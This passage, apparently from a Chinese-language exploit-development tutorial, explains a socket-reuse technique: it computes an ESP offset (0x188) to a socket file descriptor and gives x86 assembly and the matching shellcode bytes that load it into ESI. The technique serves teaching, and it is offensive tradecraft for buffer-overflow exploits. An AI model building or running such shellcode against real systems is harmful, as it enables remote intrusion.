 [EBP-420] = 0x0176FB68

为了计算距离，

`First ESP (0x0176FB68) — Address of Socket ESP (0x0176F9E0) = 0x188`

![](img/2fb41c2a9e8545bf5c9612dedfe74f43.png)

所以插座会在`ESP + 0x188`找到。这将动态地找到文件描述符的地址。

让我们用操作码来创建它:

```
**### Finding File Descriptor (ASM)**PUSH ESP      **; Push ESP on the stack**
POP EAX       **; POP ESP into EAX**
ADD AX, 0x188 **; Add 0x188 to EAX to align it to address of socket 
                ESP (58 in our example)**
PUSH [EAX]    **; Push address of EAX on the stack**
POP ESI       **; POP the address of EAX into ESI to save the register**
```

![](img/71c39ba81770855944b88a2abc3bd87e.png)

文件描述符

```
**### Finding File Descriptor (Shellcode)**\x54                  # PUSH ESP
\x58                  # POP EAX
\x66\x05\x88\x01      # ADD AX, 0x188 
\xFF\x30              # PUSH [EAX]
\x5E                  # POP ESI
```
